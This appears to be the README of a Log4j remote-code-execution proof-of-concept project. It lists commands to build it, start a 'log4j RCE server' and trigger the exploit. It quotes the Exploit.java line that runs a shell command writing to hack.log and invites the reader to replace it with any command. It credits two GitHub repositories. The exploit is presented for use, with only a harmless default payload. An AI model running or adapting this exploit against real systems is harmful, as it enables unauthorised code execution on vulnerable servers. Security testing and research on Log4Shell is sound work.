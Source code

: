 ### Build
`./build.sh`

### Start log4j RCE Server
`./start-log4j-rce-server.sh`

### Test
`java -cp log4j-rce-1.0-SNAPSHOT-all.jar log4j`

Check if you get logs in hack.log from current folder

You can change this line 
`String[] cmds = { "sh", "-c", "echo 'Exploit at '" + getDateString() + " >> ./hack.log" };`
in file apache-log4j-poc/src/main/java/Exploit.java
to whatever command you like then rebuild

### Credits
- https://github.com/tangxiaofeng7/apache-log4j-poc.git
- https://github.com/mbechler/marshalsec.git
